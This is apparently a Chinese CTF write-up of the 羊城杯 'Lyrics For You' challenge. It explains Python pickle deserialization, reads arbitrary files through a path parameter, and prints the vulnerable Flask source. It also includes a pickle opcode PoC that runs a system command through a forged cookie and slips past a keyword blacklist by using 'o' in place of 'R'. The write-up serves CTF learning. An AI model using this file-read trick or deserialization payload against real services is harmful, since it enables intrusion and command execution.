```yaml
---
title: "🎓Pickle of Lyrics For You"
desc: "羊城杯 Lyrics For You Pickle反序列化 WriteUp"
tags: "WP/Python"
updateTime: "2024-11-27 00:20"
outline: deep
---
```


# 羊城杯 Lyrics For You WP

::: info Something.
~~本来想详细写一下但是发现已经有很多优秀文章了，所以不再斗胆一写了~~

先放点关于pickle的文章
<LinkCard desc="Pickle反序列化 - 枫のBlog" link="https://goodapple.top/archives/1069" />
<LinkCard desc="通过AST来构造Pickle opcode" link="https://xz.aliyun.com/t/7012?time__1311=n4%2BxnD0Dy7it0QYuq05%2BbWDODc0M%3DtkHe4D#toc-0" />
<LinkCard desc="从零开始python反序列化攻击：pickle原理解析 & 不用reduce的RCE姿势" link="https://zhuanlan.zhihu.com/p/89132768" />
:::

## 什么是pickle

[pickle](https://docs.python.org/3/library/pickle.html)是python的一个序列化模块，相较于原始的`marshal`模块会更常用。`pickling`是通过执行`dump()`和`dumps()` 函数将输入序列化为文件或字节流的过程，对应的`unpickling`则是通过`load()`和`loads`将文件或字节流中的序列号字符串转化为原始对象的过程

pickle基于`Python Virtual Machine`运行，实际上`pickling`的过程就是将python对象转化为`PVM`可以执行的二进制操作码`OpCode`的过程；而`unpickling`的过程就是调用`PVM`执行操作码重新构建原对象的过程。栈操作`stack oporations`是pickle的基础。

pickle有六版协议，但每次更新都是在添加新语句，所以协议具有向前兼容性。在`Python3.8`之后默认的协议是`Protocol 4`。不过仍然可以通过`dumps(op,0)`这样的方式指定使用旧协议

## Lyrics For You

羊城杯的一道主要考点在pickle反序列化的题

可以发现query lyrics参数可控，`?lyrics=/path/to/file`实现任意文件读

`?lyrics=/proc/self/cmdline` 回显 python3-u/usr/etc/app/app.py

查询该地址得到源码，同时通过`import`的信息可以读取`pickle.py`和`secret_key.py`

app.py:
```python
import os  
import random  
from config.secret_key import secret_code  
from flask import Flask, make_response, request, render_template  
from cookie import set_cookie, cookie_check, get_cookie  
import pickle  
  
app = Flask(__name__)  
app.secret_key = random.randbytes(16)  
  
  
class UserData:  
    def __init__(self, username):  
        self.username = username  
  
  
def Waf(data):  
    blacklist = [b'R', b'secret', b'eval', b'file', b'compile', b'open', b'os.popen']  
    valid = False  
    for word in blacklist:  
        if word.lower() in data.lower():  
            valid = True  
            break    return valid  
  
  
@app.route("/", methods=['GET'])  
def index():  
    return render_template('index.html')  
  
  
@app.route("/lyrics", methods=['GET'])  
def lyrics():  
    resp = make_response()  
    resp.headers["Content-Type"] = 'text/plain; charset=UTF-8'  
    query = request.args.get("lyrics")  
    path = os.path.join(os.getcwd() + "/lyrics", query)  
    try:  
        with open(path) as f:  
            res = f.read()  
    except Exception as e:  
        return "No lyrics found"  
    return res  
  
  
@app.route("/login", methods=['POST', 'GET'])  
def login():  
    if request.method == 'POST':  
        username = request.form["username"]  
        user = UserData(username)  
        res = {"username": user.username}  
        return set_cookie("user", res, secret=secret_code)  
    return render_template('login.html')  
  
  
@app.route("/board", methods=['GET'])  
def board():  
    invalid = cookie_check("user", secret=secret_code)  
    if invalid:  
        return "Nope, invalid code get out!"  
  
    data = get_cookie("user", secret=secret_code)  
    if isinstance(data, bytes):  
        a = pickle.loads(data)  
        data = str(data, encoding="utf-8")  
  
    if "username" not in data:  
        return render_template('user.html', name="guest")  
  
    if data["username"] == "admin":  
        return render_template('admin.html', name=data["username"])  
  
    return render_template('user.html', name=data["username"])  
  
  
if __name__ == "__main__":  
    os.chdir(os.path.dirname(__file__))  
    app.run(host="0.0.0.0", port=8080)
```

可以发现`/board`路由下有一个很刻意的`a = pickle.loads(data)`，只要构造cookie注入满足要求的data数据即可实现反序列化攻击

poc:
```python
import pickle

opcode = (b'''(cos  
system  
S"'ls / > /tmp/flag'"  
o.''')  
  
cookie = cookie_encode(  
("user", payload),  
"EnjoyThePlayTime123456"  
)

print(cookie)
```

用`o`代替`R`执行操作绕过`waf`，尝试直接反弹shell，但在靶机上没成功，后将查询结果写到`/tmp/flag`再利用一开始的任意读查看 *idea鸣谢柏师傅*

## 题外话

查wp的时候发现有类似原题 `SekaiCTF 2022 Bottle Poem`，发现`Bottle Poem`这题都是通过构造函数后dumps来实现的。用这样的方式dump出来的操作码就可以规避一些Protocol 1的可见字符过滤。~~但如果是这样未免有些过于为了出题而出题了~~
